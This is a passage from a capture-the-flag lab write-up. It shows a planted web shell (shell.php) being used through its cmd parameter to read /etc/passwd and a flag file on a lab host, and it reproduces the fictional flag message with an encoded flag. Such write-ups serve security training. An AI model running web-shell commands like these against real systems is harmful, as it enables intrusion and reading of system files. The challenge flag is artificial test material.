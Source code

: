     *   ![IMAGE: Screenshot of `shell.php?cmd=cat /etc/passwd` output showing these users.](imgs/img_15.png)

### 4.2. Flag 1 Acquisition
*   The file `/FLAG.txt` was read:
    *   **Command:** `http://192.168.13.129/shell.php?cmd=cat /FLAG.txt`
    *   **Output:**
        ```text
        Flag 1! You have gained access to the Orion Terminal system. Now why has Commander Vex locked down the critical subsystems? Can you find a way to obtain password of Commander Vex? It appears he entrusted it to Agent Raze, so Raze could arrange a covert meeting. Flag is encrypted with Solar Flare Encryption Synt{a0g_e00g_13g} You need to find a way to decrypt it.
        ```